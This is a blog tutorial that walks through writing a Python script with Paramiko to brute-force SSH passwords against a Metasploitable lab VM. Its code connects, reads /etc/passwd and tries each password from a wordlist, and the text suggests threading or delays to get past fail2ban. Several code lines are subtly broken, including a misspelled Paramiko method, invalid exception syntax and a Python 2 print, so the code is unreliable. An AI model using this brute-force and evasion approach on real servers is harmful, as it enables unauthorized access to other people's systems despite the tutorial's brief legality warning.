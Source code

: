 ```yaml
---
title: "Brute Force SSH"
date: 2018-04-16T20:33:58-05:00
draft: false
# feature_image: "images/siteLogo.png"
---
```


Introduction
============

This tutorial will teach you how to write a Python script using Paramiko
to bruit force SSH. I will start by showing you how to make a
connection, send input and receive output, and finish with brute
forcing. In this tutorial I will be attacking Metasploitable and I
recommend you do as well. I have a handy tutorial on how to set up
Metasploitable if you need any help.

Prerequisites
=============

-   Python 3.7

-   Docker

Basic Python skills are required you can copy and past this script,
however understanding will get you much farther.

The first prerequisite is of coarse Python, Python 3.7 to be specific.
If you are running any Linux or BSD distro you already have Python
installed. If you are running Windows you can download Python here.

Paramiko is a Python library that makes working with SSH so simple. To
install Paramiko we will be using pip.

```bash
pip install paramiko
```

Now you just need a SSH server to attack. Pleas do not attack a server
you do not own. It is illegal in most parts of the world to access a
computer with out the owners permission.

Step 1
======

First, we will start by creating a file named `brute_force_ssh.py` and try to make a simple SSH connection.

```python 
#!/usr/bin/python3.7

import paramiko 

ssh = paramiko.SSHClient() 
ssh.set_missinghostkeypolicy(paramiko.AutoAddPolicy()) 

try:
    ssh.connect('192.168.56.101',
        username='msfadmin',
        password='msfadmin') 
    ssh.close() 
except as ex:
    print(ex) 

```

Lets brake this down a bit. To begin with I want to run this script
without having to call Python. For example I want run this script with the following:
```bash
./bruit_force_ssh.py
```
First we need to make the file executable. To do that run:
```bash
chmod +x brute_force_ssh.py
```

We can do this because of the first line
`#!/usr/bin/python3.7`. 

To use Paramiko it has to be imported. That is
done with the second line `import paramiko`. 
We want to connect to a SSH server so we need to create an SSH client. We do that with the following 
```python
ssh = paramiko.SSHClient() 
```
If you are connecting to a SSH server for the first time you
will want to set the host key. That is done with:

```python
ssh.set_missinghostkeypolicy(paramiko.AutoAddPolicy())
```

All that is left is to try to connect and if that fails quit.
That is done with the try and except.

To connect to a server you need the IP address, username, and
password. Observe how I do it here in the example below:
```python
ssh.connect('192.168.56.101', 
    username='msfadmin',
    password='msfadmin')
```

The IP address of the Metasploitable VM is
`192.168.56.101`. We know the username is `msfadmin` and the
password is `msfadmin`. If this fails to make a connection it
will through an exception witch we will just print at this time.

Step 2
======

This next step we add input and receive output. We will reuse
the code from above and three lines. Lets take a look.

```python 
#!/usr/bin/python3.7 

import paramiko 

ssh = paramiko.SSHClient() 
ssh.set_missinghostkeypolicy(paramiko.AutoAddPolicy())
try:
    ssh.connect('192.168.56.101',
        username='msfadmin',
        password='msfadmin')
    sdtin, stdout, stderr = ssh.exec_command('cat /etc/passwd') 
    for line in stdout.readlines():
        print(line.strip())
    ssh.close() 
except as ex:
    print(ex)
```

Did you notice what was added? Look in the try statement, you
will see I added the following:

```python
sdtin, stdout, stderr = ssh.exec_command('cat /etc/passwd')
```

This line of code sill set up standard input, standard
output, and standard error, along with executing code. In this
case we are concatenating the passwd file. To view this out
put I use the following for loop:
```python
for line in stdout.readlines():
    print(line.strip())

```
Notice we are looping through the stdout and printing the
content.

Step 3
======

This is where the fun part takes place. We need to go through a password
list and try each one. Notice I have changed the code a bit, however it
is also the same. All I have done is put the try, except, and finally
into a function. I also added a for loop to loop through the password
list. I would also like to add that I added the password msfadmin to the
fasttrack.txt file.

```python
#!/usr/bin/python3.7 

import paramiko

ssh = paramiko.SSHClient() 
ssh.set_missinghostkeypolicy(paramiko.AutoAddPolicy()) 

def attack_ssh(passwd) -> str:
    try: 
        ssh.connect('192.168.56.101', 
            username='msfadmin', 
            password= passwd)
        sdtin, stdout, stderr = ssh.exec_command('cat /etc/passwd')
        for line in stdout.readlines():
            print line.strip()
        ssh.close()
        return passwd

    except:
        return None
     
    
with open("/usr/share/wordlists/fasttraack.txt", mode="r")as file:
    for passwd in file.split("\n"):
        p = attack_ssh(passwd)
        if p:
            print("Password is:", passwd)
```

That's it! This script can and should be modified to
your needs. I suggest adding threading to speed up the process. Or you
can add a delay to attack a SSH server with fail2ban.

Summary
=======

Attacking a SSH server is quite simple when using Paramiko and Python.
There is much more that needs to be done to truly make this script work. However, this should give you a good start.

Note: this blog post was updated in 2022.
